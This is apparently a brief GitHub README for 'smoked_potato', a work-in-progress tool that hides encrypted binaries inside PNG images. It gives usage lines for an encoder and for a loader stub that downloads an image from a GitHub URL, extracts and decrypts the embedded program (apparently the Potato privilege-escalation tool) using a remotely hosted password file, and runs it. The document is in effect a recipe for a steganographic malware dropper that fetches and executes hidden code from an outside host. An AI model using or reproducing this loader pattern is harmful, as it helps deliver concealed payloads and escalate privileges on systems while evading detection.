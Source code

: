 # smoked_potato
Encrypted binaries inside images... work in progress will be removed soon.

encoder.exe picture.png net_binary.exe pass urlpass/filepass offset output.png

loader.exe url password png_offset pass_offset program_args

stub_load.exe https://github.com/vvalien/smoked_potato/raw/master/potato hellothare 6208 1995 mypotato_options go_here however_many you_want

It will use https://raw.githubusercontent.com/foxglovesec/Potato/master/source/Potato/UpgradeLog.htm as the password
